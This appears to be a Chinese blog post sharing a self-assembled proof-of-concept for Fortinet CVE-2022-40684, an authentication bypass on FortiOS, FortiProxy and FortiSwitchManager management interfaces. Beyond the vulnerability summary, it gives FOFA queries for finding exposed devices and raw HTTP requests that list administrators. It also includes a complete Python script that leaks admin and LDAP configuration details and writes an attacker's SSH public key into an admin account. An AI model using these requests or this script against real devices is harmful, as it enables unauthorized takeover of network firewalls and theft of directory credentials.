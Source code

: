 #  (自用POC)Fortinet-CVE-2022-40684

原创 老呆 [ 阿呆攻防 ](javascript:void\(0\);)

**阿呆攻防** ![]()

微信号 dai_attack

功能介绍 这是一个个人技术分享号，本人从Java转岗安全，会从各方面进行一些安全推送，不多介绍，自己看即可

____

___发表于_

收录于合集 #安全 7个



  

今天闲着没事研究了一下这个洞，但是看到Github得整合起来使用，于是我这里就整合一个版本，也只是属于漏洞复现的整合，平时也不拿nday挖洞，但是也只是为了遇到的时候用一个脚本方便些。任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益
。



01

漏洞简介  

  

Fortinet（飞塔）是一家全球知名的网络安全产品和安全解决方案提供商，其产品包括防火墙、防病毒软件、入侵防御系统和终端安全组件等。在受影响的FortiOS、FortiProxy
和
FortiSwitchManager产品的管理界面中，可以通过使用备用路径或通道绕过身份验证，并在未经认证的情况下通过特制的HTTP或HTTPS请求对管理界面进行操作。



02

风险等级  

  

高危



03

影响版本  

  

  * FortiOS  7.2.0 - 7.2.1

  * FortiOS  7.0.0 - 7.0.6

  * FortiProxy  7.2.0

  * FortiProxy  7.0.0 - 7.0.6

  * FortiSwitchManager  7.2.0

  * FortiSwitchManager  7.0.0



04

FOFA语法  

  

  *   * 

    
    
    title="FortiProxy“title="FortiGate"



05

POC  

  

  *   *   *   *   *   *   *   * 

    
    
    GET /api/v2/cmdb/system/admin HTTP/1.1Host: 目标User-Agent: Node.jsAccept-Encoding: gzip, deflateAccept: */*Hosts: 127.0.0.1:9980Forwarded: by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=X-Forwarded-Vdom: root

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224536.png)

说明漏洞存在，获取用户名这个可以直接用现成脚本获取，然后生成自己的SSH公钥写入：  

  * 

    
    
    ssh-keygen -t rsa

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224538.png)

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    PUT /api/v2/cmdb/system/admin/用户名 HTTP/2Host: 目标User-Agent: Report RunnerAccept-Encoding: gzip, deflateAccept: */*Connection: closeForwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"Content-Length: 589Content-Type: application/json  
    {"ssh-public-key1": "\"公钥内容\""}

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224539.png)

这样可以算成功写入了。  



06

开源POC使用  

  

  *   * 

    
    
    https://github.com/carlosevieira/CVE-2022-40684/blob/main/exploit.pyhttps://github.com/horizon3ai/CVE-2022-40684/blob/master/CVE-2022-40684.py

在使用上先用carlosevieira师傅的获取用户名，然后将用户名作为参数给到horizon3ai师傅的脚本。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224540.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224542.png)



07

整合现有的POC  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import argparseimport requestsimport urllib3import json requests.packages.urllib3.disable_warnings()urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
    def format_key(key_file):    with open(key_file) as f:        k = f.read().strip()  
        return(k)  
    def get_usernames(url):    headers = {        "user-agent": "Node.js",        "accept-encoding": "gzip, deflate",        "Host": "127.0.0.1:9980",        "forwarded": 'by="[127.0.0.1]:80";for="[127.0.0.1]:49490";proto=http;host=',        "x-forwarded-vdom": "root",    }    try:        r = requests.get(url + "/api/v2/cmdb/system/admin", headers=headers, verify=False)        if(r.status_code == 200):                        print("\033[92m[+] The target {} is vulnerable\033[0m".format(url))            data = json.loads(r.text)            for user in data['results']:                print("\033[93m[+]\033[0m Admin username: {}".format(user['name']))                print("\033[93m[+]\033[0m Level access: {}".format(user['accprofile']))            print("[+] Serial: {}".format(data['serial']))            print("[+] Version: {}".format(data['version']))  
                r = requests.get(url + "/api/v2/cmdb/user/ldap", headers=headers, verify=False)            data = json.loads(r.text)            if(len(data['results']) > 0):                print("[+] Leaking ldap config")                print("\033[93m[+]\033[0m LDAP server: {}".format(data['results'][0]['name']))                print("\033[93m[+]\033[0m LDAP server: {}".format(data['results'][0]['server']))                print("\033[93m[+]\033[0m LDAP binddn: {}".format(data['results'][0]['dn']))                print("\033[93m[+]\033[0m LDAP username: {}".format(data['results'][0]['username']))            return True    except Exception as exception:        print(exception)    return False  
    def get_shell(url, username, key_file):    headers = {        'User-Agent': 'Report Runner',        'Forwarded': 'for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"'    }    key = format_key(key_file)    j = {        "ssh-public-key1": '\"' + key + '\"'    }    url = f'{url}/api/v2/cmdb/system/admin/{username}'    try:        r = requests.put(url, headers=headers, json=j, verify=False)        if 'SSH key is good' in r.text:            print(f'[+] SSH key for {username} added successfully!')    except Exception as exception:        print(exception)  
    if __name__ == "__main__":    parser = argparse.ArgumentParser()    parser.add_argument('-u', '--url', help='URL路径', required=True)    args = parser.parse_args()    if args.url != '' and args.url != None:        is_vul = get_usernames(args.url)        if is_vul:            username = input("\033[91m[*]请输入用户名\033[0m:")            key_file = input("\033[91m[*]请输入SSH公钥id_rsa.pub路径\033[0m:")            get_shell(args.url, username, key_file)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230309224543.png)

搞定整合成一个了，这个洞就可以一键搜哈了。



  
  
  

喜欢就点个关注一起进步吧

  
  
  



  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

